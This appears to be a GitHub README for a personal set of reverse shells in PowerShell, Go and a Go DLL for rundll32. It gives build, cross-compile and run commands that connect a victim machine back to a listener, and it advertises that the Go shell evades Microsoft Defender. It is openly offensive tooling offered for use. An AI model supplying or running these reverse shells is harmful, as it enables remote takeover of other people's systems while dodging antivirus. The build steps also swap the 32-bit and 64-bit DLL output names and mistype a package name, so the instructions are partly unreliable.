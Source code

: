 # My Reverse Shells

# Powershell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

Usage:

<code>./pwsh_revshell.ps1 -ip 127.0.0.1 -port 3333 </code>


# Golang

Golang reverse shell. Does runtime OS detection and selects proper shell for Windows, Mac, and Linux. Is not detected currently by Microsoft Defender.
To Compile:

Linux:

<code>go build  -ldflags="-s -w" -o revshell revshell.go</code>

Cross compile on Linux for Windows:

<code>GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o revshell.exe revshell.go</code>

To run, provide the IP address and port as command line arguments:

<code>./revshell 127.0.0.1 3333</code>

<code>revshell.exe 127.0.0.1 3333</code>



# Golang DLL

Golang DLL reverse shell designed to be run with rundll32.exe. This currently has the IP and port hardcoded. Modify the IP and port in the source code.
To Compile:

Linux:
You will need to install the following packages on Ubuntu

<code>sudo apt install golang gcc build-essential gcc-mingw-w64-x86-64 gcc-mingw-w64-i68</code>


Cross compile on Linux for Windows:


32 bit DLL

<code>env GOOS=windows GOARCH=386 CGO_ENABLED=1 CC=i686-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell64.dll revshell_dll.go</code>


64 bit DLL


<code>env GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build -ldflags="-s -w" -buildmode=c-shared -o revshell32.dll revshell_dll.go</code>

To run:

<code>rundll32.exe C:\revshell32.dll,Entry</code>
